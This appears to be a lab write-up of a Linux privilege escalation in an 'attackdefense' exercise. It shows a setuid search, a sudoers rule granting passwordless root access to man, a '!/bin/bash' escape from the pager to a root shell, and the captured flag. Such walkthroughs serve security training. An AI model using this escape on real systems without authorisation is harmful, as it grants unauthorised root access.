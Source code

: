 # Priv Esc through man page with run as root without password

Find programs with setuid - nothing found

```
student@attackdefense:~$ find / -user root -perm 4000 -exec ls -ldb {} \;
find: '/proc/tty/driver': Permission denied
find: '/proc/12/task/12/fd/12': No such file or directory
find: '/proc/12/task/12/fdinfo/12': No such file or directory
```

Check sudoers file - we can run man page as root without password

```
student@attackdefense:~$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /usr/bin/man
```

Run as root and execute /bin/bash

```
student@attackdefense:~$ sudo man ls
LS(1)                                                     User Commands                                                     LS(1)

NAME
       ls - list directory contents
...
       -F, --classify
              append indicator (one of */=>@|) to entries

!/bin/bash
root@attackdefense:~# id
uid=0(root) gid=0(root) groups=0(root)
root@attackdefense:~# cat /root/flag
74f5cc752947ec8a522f9c49453b8e9a
```
